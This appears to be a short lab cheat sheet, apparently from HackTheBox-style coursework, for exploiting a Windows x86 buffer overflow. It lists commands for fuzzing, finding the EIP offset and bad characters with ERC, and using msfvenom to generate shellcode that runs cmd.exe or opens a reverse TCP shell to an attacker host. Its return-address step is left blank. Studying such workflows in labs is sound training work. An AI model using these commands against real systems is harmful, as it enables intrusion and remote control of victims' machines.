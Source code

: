 # buffer overflow Windows x86

## Take control EIP

- Get rough estimate offset
```shell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

- Create pattern
```shell
ERC --pattern c 5000
```

- Calculate exact offset
```shell
ERC --pattern o 1hF0
```

- Verify offset by overwriting EIP
```shell
$(python2 -c "print('A' * 1000 + 'B' * 4)")
```

## Identify bad chars

- Generate chars string

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

## Identify return address

## Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p windows/exec CMD="cmd.exe" --format python --bad-chars "\x00"
```

```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```